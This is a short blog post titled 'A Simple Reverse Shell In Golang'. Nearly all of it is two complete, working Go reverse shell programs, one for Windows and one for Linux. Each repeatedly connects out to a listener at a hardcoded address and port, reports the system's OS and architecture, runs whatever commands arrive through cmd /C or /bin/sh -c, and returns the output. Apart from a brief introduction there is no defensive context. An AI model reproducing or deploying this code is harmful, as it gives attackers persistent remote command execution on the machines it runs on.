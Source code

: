 ```yaml
---
layout: post
title: "A Simple Reverse Shell In Golang 🐚"
date: 2019-07-16 12:02:00 -0700
categories: go golang reverse shell infosec
published: true
---
```


This article assumes programming proficiency in `Golang` and familiarity with network programming concepts such as TCP/IP & sockets.

## **Shell Shoveling In Golang**

This is a simple example of a reverse shell I wrote in the programming language `Go`. This first code snippet was written for the Windows operating system.

```go

package main

import (
    "bufio"
    "fmt"
    "net"
    "os"
    "os/exec"
    "runtime"
    "strings"
    "time"
)

func main() {
    for {
        conn, err := net.Dial("tcp", "192.168.0.9:6666")
        if err != nil {
            time.Sleep(10 * time.Second)
            continue
        }
        fmt.Fprintf(conn, "\nOS: %s\nArchitecture: %s\n", runtime.GOOS, runtime.GOARCH)
        shell := os.Getenv("ComSpec")
        fmt.Fprintf(conn, "shell: %s\n\n", shell)

        scanner := bufio.NewScanner(conn)
        for scanner.Scan() {
            data := scanner.Text()
            out, _ := exec.Command(
                shell,
                append(
                    []string{"/C"},
                    // strings.Split(strings.TrimSpace(data), " ")...,
                    strings.TrimSpace(data),
                )...,
            ).CombinedOutput()

            fmt.Fprintf(conn, "\n%s\n", string(out))
        }

        if err := scanner.Err(); err != nil {
            fmt.Fprintf(conn, "\nError: %s ...\n", err)
        }

        time.Sleep(5 * time.Second)
    }
}

```

This second snippet was written for the linux operating system. You can see very minor differences.

```go
package main

import (
    "bufio"
    "fmt"
    "net"
    "os/exec"
    "runtime"
    "strings"
    "time"
)

func main() {
    for {
        conn, err := net.Dial("tcp", "localhost:6666")
        if err != nil {
            time.Sleep(10 * time.Second)
            continue
        }
        fmt.Fprintf(conn, "\nOS: %s\nArchitecture: %s\n", runtime.GOOS, runtime.GOARCH)
        shell := "/bin/sh"
        fmt.Fprintf(conn, "shell: %s\n\n", shell)

        scanner := bufio.NewScanner(conn)
        for scanner.Scan() {
            data := scanner.Text()
            out, _ := exec.Command(
                shell,
                append(
                    []string{"-c"},
                    strings.TrimSpace(data),
                )...,
            ).CombinedOutput()

            // cmd := strings.Split(strings.TrimSpace(data), " ")
            // out, _ := exec.Command(cmd[0], cmd[1:]...).CombinedOutput()

            fmt.Fprintf(conn, "\n%s\n", string(out))
        }

        if err := scanner.Err(); err != nil {
            fmt.Fprintf(conn, "\nError: %s ...\n", err)
        }

        time.Sleep(5 * time.Second)
    }
}
```